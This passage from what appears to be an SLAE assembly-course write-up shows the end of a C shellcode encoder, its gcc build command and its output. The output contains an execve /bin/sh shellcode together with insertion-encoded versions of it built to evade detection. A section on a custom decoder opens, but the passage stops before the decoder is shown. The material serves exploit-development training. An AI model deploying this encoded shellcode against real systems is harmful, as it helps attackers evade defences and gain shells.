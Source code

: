 ```c
i=0;
for (i; i < strlen(shellcode2); i++) {
       printf("0x%02x,", shellcode2[i]);
}

printf("\n\nEncoded Shellcode Length %d\n",strlen(shellcode2));
free(shellcode2);
free(buffer);
printf("\n\n");
}

```

The program above will be compiled using **gcc** as follows


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
gcc -o encode encoder.c
</pre>

Then, running the encoder will give the following result

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment4</b></span># ./enc Shellcode:\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80Shellcode Length 25Decoded Shellcode:0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,Insertion shellcode0x31,0xa9,0xc0,0x1f,0x50,0xdd,0x68,0x22,0x2f,0x9e,0x2f,0x78,0x73,0x32,0x68,0x0c,0x68,0x64,0x2f,0x74,0x62,0x84,0x69,0xf2,0x6e,0xde,0x89,0xf6,0xe3,0x93,0x50,0xf1,0x89,0xb5,0xe2,0x15,0x53,0x80,0x89,0x82,0xe1,0x93,0xb0,0xb6,0x0b,0x5d,0xcd,0x2c,0x80,0x42,Encoded shellcode0x4e,0xc7,0x51,0xec,0x58,0x01,0xdb,0x3f,0xef,0xf4,0xef,0xda,0x2a,0x3e,0xdb,0x1e,0xdb,0x9b,0xef,0x9a,0x3b,0x95,0xcb,0x32,0xfb,0xf0,0xc5,0x72,0x23,0x24,0x58,0x42,0xc5,0x86,0x33,0x8c,0x28,0x55,0xc5,0x35,0x43,0x24,0x56,0x76,0xad,0x09,0x02,0x10,0x55,0x39,Encoded Shellcode Length 50
</pre>

### The Custom Decoder&nbsp;

<p style="text-align:justify;">
At this section, an assembly wrapper will be used to decode the encoded payload which will implement the decoding scheme. The main purpose of the custom decoder is to implement a generic solution making the decoder work in different linux environments. The decoding scheme will be applied at the following encoded payload.
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
0x4e,0xc7,0x51,0xec,0x58,0x01,0xdb,0x3f,0xef,0xf4,0xef,0xda,0x2a,0x3e,0xdb,0x1e,0xdb,0x9b,0xef,0x9a,0x3b,0x95,0xcb,0x32,0xfb,0xf0,0xc5,0x72,0x23,0x24,0x58,0x42,0xc5,0x86,0x33,0x8c,0x28,0x55,0xc5,0x35,0x43,0x24,0x56,0x76,0xad,0x09,0x02,0x10,0x55,0x39
</pre>
